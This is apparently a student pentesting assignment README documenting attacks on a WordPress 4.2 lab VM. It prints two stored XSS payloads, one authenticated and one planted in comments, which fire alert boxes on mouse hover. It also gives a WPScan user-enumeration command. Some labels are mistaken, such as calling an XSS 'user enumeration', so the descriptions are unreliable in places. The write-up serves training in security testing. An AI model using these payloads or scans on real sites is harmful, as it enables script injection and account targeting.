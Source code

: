 # Assignment 7-Pentesting
1. Wordpress: XSS(Authenticated)
   - Summary
      - Vulnerability type: Authenticated Cross site scripting
      - WP version: 4.2
      - HTML line: <a href="[caption code="]></a><a title=" onmouseover=alert('xss testing') ">title=" onmouseover=alert('xss testing')>link</a>
      - Steps: 
           - Wrote the above html code to post a link in a page with admin privilege
           - Saved it and the link is posted on the admin's page
           - Admin hovers on the link posted and the exploit is triggered
   - Gif walkthrough
         
 ![](xss.gif)
 
 2. Wordpress: XSS(unauthenticated)
    - Summary
         - Vulnerability type: user enumeration
         - WP version: 4.2
         - HTML line: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px></a>
         - Steps: 
             - Wrote the above html code in comment for a post
             - A user views the comment and hovers on the link, the exploit is soon triggered
           
 ![](xss(unauthenticated).gif)
 
 3. Kali WPscan
    - Summary
       - Vulnerability type: User Enumeration
       - Kali command: wpscan --url http://wpdistillery.vm --enumerate u
       - The above command on kali will brite force the user login information
       
 ![alt-text](user_enumeration.gif)
